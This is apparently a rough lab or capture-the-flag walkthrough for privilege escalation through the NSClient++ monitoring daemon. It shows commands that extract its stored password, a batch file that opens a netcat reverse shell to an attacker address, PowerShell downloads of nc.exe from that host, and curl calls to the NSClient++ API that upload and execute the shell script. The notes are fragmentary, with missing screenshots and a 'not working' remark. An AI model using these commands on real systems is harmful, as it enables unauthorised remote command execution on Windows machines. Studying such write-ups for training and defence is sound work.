



______

NSClient++ (nscp) aims to be a simple yet powerful and flexible monitoring daemon. It was built for Nagios/Icinga/Naemon, but nothing in the daemon is Nagios/Icinga specific and it can and is used in many other scenarios where you want to receive/distribute check metrics. It is entirely possible to use it stand alone as well as the core monitoring system though that is not recommended as it is rather limited.


```
C:\Program Files\NSClient++>nscp web -- password --display
```

https://docs.nsclient.org/howto/run_commands/

Create `shell.bat`:

```bat
\programdata\nc.exe 10.10.14.21 443 -e cmd
```

This assumes that `nc.exe` is in `C:\programdata`

Upload `nc64.exe` and `shell.bat` to `C:\programdata\`. I started a Python HTTP server on my host, and used PowerShell’s `wget` command:'

```cmd
powershell wget http://10.10.14.21/nc.exe -outfile nc.exe
powershell wget http://10.10.14.21/shell.bat -outfile shell.bat
```

In the NSClient++ GUI, first I’ll associate my script with a command by clicking Settings > external scripts > scripts, and then “+Add new”.




When I hit “Add”, `df` now shows up under scripts above, and the Changes tab turns red. I can go to Changes and save this to the disk config


Now under scheduler > schedules I’ll hit the “+Add new” button. I need to add two things here. First, I’ll edit the section to add a new name, and then give it an interval of 10 seconds


After hitting Add, I’ll change edit the form, and then Add again:


not working

## option2


```bash
curl -s -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/shell.bat --data-binary "C:\ProgramData\nc.exe 10.10.14.21 443 -e cmd.exe"
```

```bash
curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/shell/commands/execute?time=3m
```
